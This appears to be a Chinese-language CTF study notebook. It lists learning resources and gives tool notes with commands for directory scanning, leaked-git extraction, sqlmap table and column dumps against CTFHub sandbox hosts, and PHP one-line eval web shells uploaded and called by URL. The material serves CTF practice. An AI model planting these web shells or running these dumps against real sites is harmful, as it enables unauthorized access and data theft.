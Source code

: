 - 网络安全整体的文章
	- [信息安全、CTF 入门与学习方法笔记（持续更新）](https://marlous.github.io/2018/12/09/%E4%BF%A1%E6%81%AF%E5%AE%89%E5%85%A8%E3%80%81CTF%20%E5%85%A5%E9%97%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0%E6%96%B9%E6%B3%95%E7%AC%94%E8%AE%B0%EF%BC%88%E6%8C%81%E7%BB%AD%E6%9B%B4%E6%96%B0%EF%BC%89/#5-CTF-%E5%86%85%E5%AE%B9%E3%80%81%E8%B5%84%E6%96%99%E3%80%81%E5%B7%A5%E5%85%B7%E3%80%81%E6%BC%94%E7%BB%83%E5%B9%B3%E5%8F%B0)
	- [CTF入门资料](https://blog.csdn.net/weixin_39664643/article/details/108315722)
	- [一个WIKI](https://hackmd.io/@Ov16q5H6T3CZG6TE4dlqrA/BJJk2x3N7#XXE)
	- [俺自己的 CTF 常用工具使用 & 初学经验整理](https://zhangmaimai.com/2021/10/30/max-ctf-tools-and-exp/)
	- [2020年收集的渗透测试进阶学习资料](https://www.cnhackteam.org/topic/1001/?btwaf=43553764)
	- [又一个wiki](https://ctf-wiki.org/)
	- [Security-Data-Analysis-and-Visualization](https://github.com/404notf0und/Security-Data-Analysis-and-Visualization#Web%E5%AE%89%E5%85%A8%E7%9F%A5%E8%AF%86%E5%A4%A7%E7%BB%BC%E5%90%88)
- 工具类型的网站
	- [CTFTools](https://ctftools.com/down/)
	- [CTF编码](http://www.hiencode.com/)
	- [Personal CTF Toolkit](https://github.com/Harmoc/CTFTools)
	- [渗透师导航](https://www.shentoushi.top/knowledge)
	- [[常见web系统默认口令总结]]
- 习题
  collapsed:: true
	- [Writeups](https://github.com/susers/Writeups)
	- [全国大学生信息安全竞赛真题（CTF）](https://blog.csdn.net/Toufahaizai/article/details/89002051)
	- [Hacker Game 2021 Writeups](https://github.com/USTC-Hackergame/hackergame2021-writeups)
	  collapsed:: true
		- 中科大信息安全大赛团队在 GitHub 上开源的赛事题解：Hacker Game 2021 Writeups
		- 主要包含官方与选手们的题目描述、文件、源代码、技术解析文章等内容。包含多种解题思路与实现技巧，颇有参考价值。
	- [CTF-Site](https://github.com/myndtt/CTF-Site)
	- [合天网安实验室](https://www.hetianlab.com/pages/CTFLaboratory.jsp)
- 博客
  collapsed:: true
	- [BACKUP](https://4hou.win/wordpress/?cat=3388)
- 工具以及思路
	- 虚拟机
	  collapsed:: true
		- [[VMWare]]
	- Web
		- > pip config set global.index-url https://mirrors.aliyun.com/pypi/simple
		- 扫描工具
		  collapsed:: true
			- [wappalyzer](https://www.wappalyzer.com/installed?utm_source=installed&utm_medium=extension&utm_campaign=wappalyzer) 网站信息扫描
			  id:: 62aae34b-60dd-4818-90e4-ae6b89c93527
			- [cansina](https://github.com/deibit/cansina) 目录扫描
				- ```shell
				  安装依赖
				  pip install -r requirements.txt
				  扫描
				  python3 cansina.py -u <site_url> -p <payload_file>
				  ```
			- [dirsearch](https://github.com/maurosoria/dirsearch) 目录扫描
				- ```shell
				  py dirsearch.py -u http://challenge-f0c5939453483692.sandbox.ctfhub.com:10800/
				  ```
		- 读取工具
		  collapsed:: true
			- [GitHack](https://github.com/lijiejie/GitHack) git泄露读取文件
			  collapsed:: true
				- ```shell
				  python GitHack.py http://www.openssl.org/.git/
				  ```
				- git常用语句
					- 查看日志
					  collapsed:: true
						- ```shell
						  git log
						  ```
					- 查看commit 内容
						- ```xshell
						  git diff commitID
						  ```
					- 查看stash
					  collapsed:: true
						- ```shell
						  git stash list
						  ```
					- 出stash
					  collapsed:: true
						- ```shell
						  git stash pop
						  ```
					- 查看stash的hash文件
					  collapsed:: true
						- ```shell
						  cat .git/refs/stash
						  ```
			- [dvcs-ripper](https://github.com/kost/dvcs-ripper)
			  collapsed:: true
				- docker docker环境会报错
				  collapsed:: true
					- ```shell
					  docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-svn.pl -v    -u  http://challenge-b462cb7bd1c09880.sandbox.ctfhub.com:10800
					  ```
				-
		- SQL注入
		  collapsed:: true
			- [sqlmap](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)
				- 需要安装 [visual-cpp-build-tools](https://visualstudio.microsoft.com/zh-hans/visual-cpp-build-tools/)
					- ![image.png](../assets/image_1655354940503_0.png)
				- ```shell
				  git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
				  ```
				-
				- 列出表名
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 --tables
					  ```
				- 列出列名
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
					  ```
				- 查数据
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
					  ```
		- 文件上传
		  collapsed:: true
			- 1.确定环境
			  collapsed:: true
				- ((62aae34b-60dd-4818-90e4-ae6b89c93527))
			- 2.上传对应木马
				- PHP
					- ```PHP
					  <?php eval(@$_POST['a']); ?>
					  ```
					- ```PHP
					  <?php eval(@$_GET['a']); ?>
					  ```
			- 3.访问接口
				- ```curl
				  http://challenge-15ae0dbdc51ad51b.sandbox.ctfhub.com:10800/upload/sad.php?a=phpinfo();
				  ```
		- 抓包工具
		  collapsed:: true
			- [[Burpsuite Pro 2022.2.2]]
			  collapsed:: true
				- [Burp Suite 使用介绍](http://drops.xmd5.com/static/drops/tools-1548.html)
		- 网站管理工具
			- [AntSword](https://github.com/AntSwordProject/AntSword-Loader)
			-
		-
	- Wisc
	  collapsed:: true
		- 图片隐写
		  collapsed:: true
			- [BlindWaterMark](https://github.com/chishaxie/BlindWaterMark)
			  collapsed:: true
				- 盲水印 by python
- 字典
	- [fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts)
-
-